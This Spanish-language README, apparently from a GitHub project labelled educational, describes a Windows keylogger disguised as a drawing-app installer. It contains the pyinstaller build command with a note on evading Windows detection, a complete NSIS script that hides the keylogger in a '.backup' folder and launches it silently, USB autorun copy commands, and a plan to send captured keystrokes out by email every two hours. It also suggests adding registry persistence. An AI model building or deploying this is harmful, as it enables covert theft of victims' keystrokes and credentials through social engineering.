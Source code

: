 # Instalador de un keylogger en una víctima Windows

Este proyecto está desarrollado solo para fines educativos.

## Idea de ataque en windows con keylogger:

Crear un instalador que instala una "app" ficticia de dibujo pero a la vez el instalador instala un keylogger(`keylogger.py`) en una carpeta oculta que se lanza automáticamente al finalizar el instalador.

El keylogger guarda todos los registros de teclado en un fichero y cada 2 horas envía por e-mail todo lo registrado. Se utiliza la librería [Sendgrid](https://sendgrid.com/solutions/email-api/) (Requiere una cuenta)

Para salir del keylogger la victima puede teclear una combinación de teclas `<ctrl>+<alt>+q`
## Ejemplo: Crear el ejecutable

Se utiliza [pyinstaller](https://www.pyinstaller.org/) que permite embeber un proyecto pyhton en un .exe

```bash
pyinstaller --onedir --name "draw" -w keylogger.py
```

--name

nombre del exe `ej: draw.exe`

--onedir

el ejecutable se puede crear de dos modos, en modo `onefile` que solo crea un exe o en modo carpeta `onedir` con el .exe y las librerías. Lo más limpio sería empaquetar el script en un solo fichero .exe. Pero en las pruebas realizadas Windows detecta más facilemente que es un virus cuando se utiliza `onefile`. En modo carpeta windows es más permisible. *De esta manera nos saltamos que windows bloque el keylogger*

El pyinstaller crea el directorio `dist\draw` con el exe `dist\draw\draw.exe` y las librerias
## Ejemplo: Instalador del keylogger (ingeniería social)

Utilizando el software [nsis](https://nsis.sourceforge.io/Main_Page) se enmascara la instalación del keylogger como si fuera un software de dibujo, el usuario creerá que es un app de dibujo (es un enlace a app online) pero también instalará el keylogger en un directorio oculto (`.backup`)

Una vez finaliza la instalación se ejecuta el keylogger de forma transparente a la victima.

Pasos para generar el instalador:

- Copiar y renombrar `draw.url.dist_sample` `installer.nsi.dist_sample` y `LEEME.txt.dist_sample` en la carpeta `dist`.
- Renombrar la carpeta `dist/draw` por `dist/.backup`

```
copy draw.url.dist_sample dist\draw.url
copy installer.nsi.dist_sample dist\installer.nsi
copy LEEME.txt.dist_sample dist\LEEME.txt
move dist\draw dist\.backup

```

- Ejecutar el script `dist\installer.nsi` con NSIS para generar el instalador `draw-installer.exe`

Script NSIS

```
Outfile "draw-installer.exe"

InstallDir C:\Draw

Section

SetOutPath $INSTDIR

File LEEME.txt
File draw.url

SetOutPath $INSTDIR\.backup

File .backup\base_library.zip
File .backup\draw.exe
File .backup\libcrypto-1_1.dll
File .backup\libffi-7.dll
File .backup\libssl-1_1.dll
File .backup\pyexpat.pyd
File .backup\python310.dll
File .backup\select.pyd
File .backup\unicodedata.pyd
File .backup\VCRUNTIME140.dll
File .backup\_asyncio.pyd
File .backup\_bz2.pyd
File .backup\_ctypes.pyd
File .backup\_decimal.pyd
File .backup\_hashlib.pyd
File .backup\_lzma.pyd
File .backup\_multiprocessing.pyd
File .backup\_overlapped.pyd
File .backup\_queue.pyd
File .backup\_socket.pyd
File .backup\_ssl.pyd

SectionEnd

Section

SetOutPath $INSTDIR

SetFileAttributes "c:\Draw\.backup" HIDDEN

SetOutPath "c:\Draw\.backup"

Exec '"draw.exe"'

ExecShell "open" "C:\Draw"

SectionEnd

```
# Ejemplo: Crear USB con autplay

```
copy autorun.inf.sample d:\autorun.inf
copy draw.lnk.sample d:\draw.lnk
copy LEEME.txt.dist_sample d:\LEEME.txt
md d:\.backup
attrib +h d:\.backup /s /d
copy dist\.backup d:\.backup
```
## Posibles mejoras

* Modificar el registro de windows para que se lance al inicio de Windows
* Salir si ya hay un keylogger ejecutandose.



